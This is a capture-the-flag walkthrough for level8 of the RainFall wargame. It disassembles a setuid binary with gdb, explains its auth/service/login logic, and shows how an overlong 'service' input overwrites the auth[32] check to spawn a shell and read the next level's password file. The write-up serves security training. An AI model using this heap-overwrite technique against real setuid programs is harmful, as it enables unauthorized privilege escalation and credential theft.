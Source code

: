 ```sh
level8@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level8 level8   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level8 level8  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level8 level8 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8
-rw-r--r--+ 1 level8 level8   65 Sep 23  2015 .pass
-rw-r--r--  1 level8 level8  675 Apr  3  2012 .profile
level8@RainFall:~$ ./level8
(nil), (nil) 
42
(nil), (nil) 
4242424242424424242424242424242
(nil), (nil) 
^C
level8@RainFall:~$ ./level8 42 42
(nil), (nil) 
42424242424
(nil), (nil) 
2424242rsdanfaslkgnbklfansdklnawe
(nil), (nil) 
```
There is one excutable file **level8**, when run the program, he prints some information and wait standard input, when he take enter, it repeats forever. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x08048564  main
...
(gdb) disas main
Dump of assembler code for function main:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     push   %edi
   0x08048568 <+4>:     push   %esi
   0x08048569 <+5>:     and    $0xfffffff0,%esp
   ...
   0x08048737 <+467>:   pop    %ebp
   0x08048738 <+468>:   ret    
End of assembler dump.
```
We can find some hint in this big asm, with asm command ```repz cmpsb```.
```sh
(gdb) disas main
   ...
   0x080485bb <+87>:    lea    0x20(%esp),%eax
   0x080485bf <+91>:    mov    %eax,%edx
   0x080485c1 <+93>:    mov    $0x8048819,%eax
   0x080485c6 <+98>:    mov    $0x5,%ecx
   0x080485cb <+103>:   mov    %edx,%esi
   0x080485cd <+105>:   mov    %eax,%edi
   0x080485cf <+107>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x080485d1 <+109>:   seta   %dl
   0x080485d4 <+112>:   setb   %al
   0x080485d7 <+115>:   mov    %edx,%ecx
   0x080485d9 <+117>:   sub    %al,%cl
   0x080485db <+119>:   mov    %ecx,%eax
   0x080485dd <+121>:   movsbl %al,%eax
   0x080485e0 <+124>:   test   %eax,%eax
   0x080485e2 <+126>:   jne    0x8048642 <main+222>
   ...
```
[cmpsb](https://faydoc.tripod.com/cpu/cmpsb.htm) is compare command byte by byte, [repz](https://www.gladir.com/LEXIQUE/ASM/repz.htm) is repeat instruction parameter(for now is cmpsb) until cx register becomes 0. \
line +93, get the value in eax from the ```0x8048819``` which is
```sh
(gdb) x/s 0x8048819
0x8048819:       "auth " #spacebar is there (5 characters)
```
line +98, ecx get 5, and in the line +107, it compares 2 parameters. \
and line +124, it compares himself, so the result of cmpsb is 0. \
We can represent in c,
```c
 if (strncmp(buffer, "auth ", 5) == 0)
 ```
We can find same pattern at different places, like \
```main+222~259```, ```main+276~313```, ```main+343~374```. \
\
Commands available for the level8 "auth ", "reset", "service", "login".
\
And we can also find what is printed in terminal with ```printf()```,
```sh
   0x08048575 <+17>:    mov    0x8049ab0,%ecx
   0x0804857b <+23>:    mov    0x8049aac,%edx
   0x08048581 <+29>:    mov    $0x8048810,%eax
   0x08048586 <+34>:    mov    %ecx,0x8(%esp)
   0x0804858a <+38>:    mov    %edx,0x4(%esp)
   0x0804858e <+42>:    mov    %eax,(%esp)
   0x08048591 <+45>:    call   0x8048410 <printf@plt>
```
He take 2 arguments ```0x8049ab0```, ```0x8049aac``` which is
```sh
(gdb) x/s 0x8049ab0
0x8049ab0 <service>:     ""
(gdb) x/s 0x8049aac
0x8049aac <auth>:        ""
```
So it was address of global variables ```service``` and ```auth``` ! \
When we use "auth" and "service" command, it will allocate the address for those variables, which are printed instead (nil).
```sh
level8@RainFall:~$ ./level8
(nil), (nil) 
auth
0x804a008, (nil)
```
After we use second command ```service```
```sh
service
0x804a008, 0x804a018 
```
It seem be diffrent addresses of global variables, because
```sh
level8@RainFall:~$ ltrace ./level8 
__libc_start_main(0x8048564, 1, 0xbffff7f4, 0x8048740, 0x80487b0 <unfinished ...>
printf("%p, %p \n", (nil), (nil)(nil), (nil))          = 14
fgets("auth \n", 128, 0xb7fd1ac0)                      = 0xbffff6d0
malloc(4)                                              = 0x0804a008 # here
strcpy(0x0804a008, "\n")                               = 0x0804a008
printf("%p, %p \n", 0x804a008, (nil)0x804a008, (nil))  = 18
fgets("service\n", 128, 0xb7fd1ac0)                    = 0xbffff6d0
strdup("\n")                                           = 0x0804a018 # and here
printf("%p, %p \n", 0x804a008, 0x804a018)              = 22
```
it was allocated by malloc and strdup. \
Now we have both variables allocated at the addresses ```0x804a008```, ```0x804a018```. \
In the main+382, we can see
```sh
(gdb) disas main
   ...
   0x080486e2 <+382>:   mov    0x8049aac,%eax
   0x080486e7 <+387>:   mov    0x20(%eax),%eax
   0x080486ea <+390>:   test   %eax,%eax
   0x080486ec <+392>:   je     0x80486ff <main+411>
   0x080486ee <+394>:   movl   $0x8048833,(%esp)
   0x080486f5 <+401>:   call   0x8048480 <system@plt>
   ...
(gdb) x/s 0x8049aac
0x8049aac <auth>:        ""
(gdb) x/s 0x8048833
0x8048833:       "/bin/sh"
```
its represent in c like,
```c
if (auth[32] != 0) {
	system("/bin/sh");
}
```
But as you can see we can obtain level8's bash if we pass this statement
As long as auth's variable address is at ```0x804a008``` and ```a[32]``` means ```0x804a008 + 32```, which is ```0x804a028``` \
we can simply buffer overflow ```service``` to reach that address and set the value with anything other than 0.
The characters after ```service``` must be longer than 16 because ```strdup``` function takes string from 7's position.
```sh
...
auth 
0x804a008, (nil) 
service1234567890abcdef
0x804a008, 0x804a018
login
$ cat /home/user/level9/.pass
(hidden)
```
level8 passed !